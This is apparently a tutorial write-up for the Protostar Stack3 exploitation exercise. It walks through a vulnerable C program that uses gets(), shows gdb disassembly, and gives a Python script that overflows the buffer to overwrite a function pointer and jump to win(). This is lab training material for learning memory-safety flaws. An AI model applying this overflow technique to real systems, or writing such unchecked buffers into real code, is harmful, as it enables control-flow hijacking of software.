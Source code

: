 Our goal is to solve this explotation challenge <i> [Stack3](https://exploit.education/protostar/stack-three/)</i>
by redirecting code to function win

# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```
## Problem of code
In this code we have a function-pointer placed in stack, which will be called if its value 
is different than zero. We also have a gets function which is dangerous because it doesn't 
know in advance how many characters will be read.


We will execute the programm with gdb to have a view of the assembly code.

```

0x08048438 <main+0>:	push   %ebp
0x08048439 <main+1>:	mov    %esp,%ebp
0x0804843b <main+3>:	and    $0xfffffff0,%esp
0x0804843e <main+6>:	sub    $0x60,%esp
0x08048441 <main+9>:	movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:	lea    0x1c(%esp),%eax
0x0804844d <main+21>:	mov    %eax,(%esp)
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    $0x8048560,%eax
0x08048461 <main+41>:	mov    0x5c(%esp),%edx
0x08048465 <main+45>:	mov    %edx,0x4(%esp)
0x08048469 <main+49>:	mov    %eax,(%esp)
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret  

```

The problem in this case is when we move a value from the stack to %eax and then call %eax.

```

0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax

```

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that %eax 
will be equal to 0x51515151 before <main+61>.


```

0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
(gdb) b *main +61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack3 < /home/user/tmp
calling function pointer, jumping to 0x51515151

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers 
eax            0x51515151	1364283729
ecx            0x0	0
edx            0xb7fd9340	-1208118464


```

We know that the ASCII value 0x51 is letter Q so our exploit string will be 
"AAAABBBBCCCC....OOOOPPPP"+ the address of function win 

We obtain from gdb the address of function win

```
(gdb) x win
0x8048424 <win>:	0x83e58955

```

And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string = string.split("QQQQ")[0]
        string = string + struct.pack("I",0x08048424)

        print(string)

```


Finally we run like 

```
user@protostar:~$ python stack3.py | /opt/protostar/bin/stack3

calling function pointer, jumping to 0x08048424
code flow successfully changed

user@protostar:~$ 

```


